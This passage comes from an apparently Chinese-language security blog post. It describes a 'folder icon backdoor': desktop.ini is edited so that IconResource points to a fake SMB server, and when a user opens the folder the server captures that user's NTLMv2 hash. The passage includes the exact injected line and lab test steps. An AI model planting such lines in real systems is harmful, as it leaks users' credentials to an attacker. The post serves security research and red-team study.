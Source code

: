IconResource指向伪造文件服务器，SHELL32.dll不存在

#### 2、在伪造文件服务器上使用wireshark进行抓包

#### 3、客户端访问正常文件服务器

#### 4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2018-1-23/3-1.png)

通过这种方式，相比于scf文件，隐蔽性更高

## 0x05 文件夹图标后门
---

原理同上，更改系统文件夹的配置文件desktop.ini，当用户打开指定文件夹时，将本机当前用户的NTLMv2 Hash发送至伪造文件服务器

默认情况下，系统常见文件夹下包含配置文件desktop.ini，例如文件夹`Program Files`，desktop.ini内容如下：

```
[.ShellClassInfo]
LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21781
```

尝试对其修改，添加如下内容：

```
IconResource=\\192.168.62.130\test\SHELL32.dll,4
```

**注：**

需要管理员权限

测试成功

### 实际测试：

客户端IP: 192.168.62.139

伪造文件服务器IP： 192.168.62.130

#### 1、修改客户端文件，路径为C:\Program Files\desktop.ini，添加内容

```
IconResource=\\192.168.62.130\test\SHELL32.dll,4
```

**注：**

IconResource指向伪造文件服务器，SHELL32.dll不存在

#### 2、在伪造文件服务器上使用wireshark进行抓包

#### 3、客户端访问文件夹c:\

#### 4、伪造文件服务器获得客户端本机当前用户的NTLMv2 Hash
